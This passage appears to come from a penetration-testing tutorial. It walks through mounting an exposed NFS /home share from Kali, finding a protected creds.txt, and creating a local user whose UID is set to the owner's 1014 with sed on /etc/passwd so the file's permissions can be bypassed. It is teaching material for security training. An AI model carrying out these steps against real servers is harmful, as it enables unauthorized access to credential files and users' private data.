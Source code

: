 In this case, the entire **/home** directory is being shared and we can access it by mounting it on our Kali virtual machine. We will use **mount** to do this, along with **-o nolock** to disable file locking, which is often needed for older NFS servers:
```
kali@kali:~$ mkdir home
kali@kali:~$ sudo mount -o nolock 10.11.1.72:/home ~/home/
kali@kali:~$ cd home/ && ls
jenny joe45 john marcus ryuu
```

Based on this file listing, we can see that there are a few home directories for local users on the remote machine. Digging a bit deeper, we find a filename that catches our attention, so we try to view it:
```
kali@kali:~/home$ cd marcus
kali@kali:~/home/marcus$ ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09:16 .
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1014 1014 48 Jun 10 09:16 creds.txt
kali@kali:~/home/marcus$ cat creds.txt
cat: creds.txt: Permission denied
```

It appears we do not have permission to view this file. Taking a closer look at the file permissions, we can see that its owner has a UUID of 1014, and also read(r) and write(w) and execute(x) permissions on it. What can we do with this information? Since we have complete access to our kali machine, we can try to add a local user to it using the **adduser** command, change its UUID to 1014, **su** to that user, and then try accessing the file again:
```
kali@kali:~/home/stefan$ sudo adduser pwn
Adding user `pwn' ...
Adding new group `pwn' (1001) ...
Adding new user `pwn' (1001) with group `pwn' ...
Creating home directory `/home/pwn' ...
Copying files from `/etc/skel' ...
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
Changing the user information for pwn
Enter the new value, or press ENTER for the default
Full Name []:
Room Number []:
Work Phone []:
Home Phone []:
Other []:
Is the information correct? [Y/n]
```

Based on the output abvoe, we can see that the new user has a UUID of 1001, which is not really what we need. We can change it to 1014 using **sed** and confirm the change  took place. The **-i** option is used to replace the file in-place and the **-e** option executes a script. In this case, that happens to be **'s/1001/1014/g'**, which will globally replace the UUID in the **/etc/passwd** file:
```
kali@kali:~/home/marcus$ sudo sed -i -e 's/1001/1014/g' /etc/passwd
kali@kali:~/home/marcus$ cat /etc/passwd | grep pwn
pwn:x:1014:1014:,,,:/home/pwn:/bin/bash
```
